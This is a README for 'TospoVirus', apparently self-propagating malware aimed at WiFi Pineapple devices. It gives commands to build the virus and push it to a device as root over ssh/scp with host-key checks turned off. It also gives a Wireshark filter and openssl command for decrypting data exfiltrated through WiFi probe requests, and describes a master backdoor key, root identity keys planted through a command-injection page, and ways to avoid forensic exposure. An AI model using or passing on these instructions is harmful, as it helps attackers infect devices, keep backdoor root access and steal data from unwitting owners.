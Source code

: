 Building TospoVirus for Distribution:
------
./build.sh

Distribute to a working pineapple with version 2.3:
------
ssh -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null root@172.16.42.1 "mkdir /tospo"  
scp -oStrictHostKeyChecking=no -oUserKnownHostsFile=/dev/null dist/tv* root@172.16.42.1:/tospo/  
_Note: You'll need to have a configured device OR use the metasploit-module to enable ssh_

Decrypting ex-filtrated data:
------
wireshark filter is:  
(wlan.fc.type_subtype == 0x04) && (wlan_mgt.tag.length == 32)  
printf $(echo "[data copied from wireshark]" | sed -re 's/(..)/\\\\x\1/g') | openssl rsautl -decrypt -inkey tvd.pem

Optionally, use the harvest.py script like so:  
python harvest.py [monitor-iface]

Files & Purpose:
------
| File         | Purpose  |
| ------------ | -------- |
| tv           |The virus itself.|
| tvbd         |The "master" backdoor key, do not distribute the private key.|
| tvd          |The disclosure key, used for exfiltrating data via probe requests.|
| tospo_rsa    |The identity private key, specific to each infected device used as the transfer key.|
| tospo_rsa.pub|The identity public key, transferred via the command injection page to allow the private identity to perform actions as root on the remote device.|
| w            |Pushed wireless configuration options, used to restore previous connections.|
| n            |Pushed network configuration options, used to restore previous connections.|
_Note: Files starting with 'tv' are all transferred when infecting a new device. Do not add private keys and the like using names beginning with 'tv' or else your private key will be exposed to forensic analysis._
